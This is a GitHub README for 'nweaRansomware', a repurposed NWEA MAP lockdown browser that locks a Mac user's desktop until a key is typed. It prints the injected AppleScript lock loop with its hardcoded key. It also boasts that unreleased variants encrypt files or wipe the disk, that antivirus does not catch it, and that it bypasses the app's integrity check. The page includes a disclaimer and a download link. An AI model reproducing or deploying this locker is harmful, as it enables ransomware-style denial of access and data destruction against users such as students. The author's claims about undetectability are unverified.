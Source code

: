 ## About nweaRansomware:
This program is a modified version of the lock down testing browser used for Map testing.
NweaRansomware was built off of was v4.0.0.3.
It will lock the usr's desktop, making it impossible for the user to quit the program without entering the key.
This issue was originally discovered when trying to remove scripts that blocked window switching.

## Live Key:
Emergency Key(if all goes wrong) go to this url(https://www.projectzevo.com/knwea)

## Capabilities:
1. nweaRansomware is capable of more than locking a usr's desktop.
2. During my experimenting, I found it is possible to encrypt a usr's files via disk utility.
This can be done with a couple lines of code that will automate the processes of making a new folder,
moving all desktop files into it, and creating a new disk image with a predetermined password to lock it.
3. It is also possible to run a automated terminal command to wipe the users disk,
erasing all data.
4. These versions of nweaRansomware will not be available to the public

## What has been modified?:
Nothing, only eight lines of code have been added.
Code added to "QuitProcesses.applescript":


repeat

	set protectCode to display dialog "!Your laptop is locked! !Enter Key!" default answer "" buttons {"Unlock With Key"}
	
	if text returned of protectCode is "ioZevo#^Github" then
	
		tell application "nwea browser exploited"
		
			quit
			
		end tell
	
	end if
	
end repeat

Sadly NWEA has done a horrible job of securing their code, making it easy to convert their program
into simple Ransomeware. The Sparkle framework, which includes a function to check if code has been
changed, fails to prevent the program from launching.

## Is it detectable by anti-virus programs?:
No it is not, no anti-virus has stopped it from running or marked it as malware.
MacOS does not give any warnings, as soon as the application is launched,
the text box asking for a key will appear.

## Terms and Agreements:
When you launch nweaRansomware you agree to the following:
ioZevo(https://github.com/iozevo) is not responsible for anything that
happens to your computer files, hardware, and data. DO NOT contact me for
compensation funds, you will be blocked.

## Bugs:
Usr can still move items around on desktop, but still can not open any apps.

## Safety precautions:
1. Write down the key included in the "key.txt" file on a piece of paper.
   If you enter it correctly, the program will quit.
2. Keep a force-quit tab open to quit it.
3. DO NOT change the name of the program!
4. If all goes wrong do crtl+cmd+pwr-button. Next hold shift down and boot into safe mode to delete the program.

## Downloads:
v4.0.0.3: https://teach.mapnwea.org/contents/partner/Lockdown%20Browser.dmg

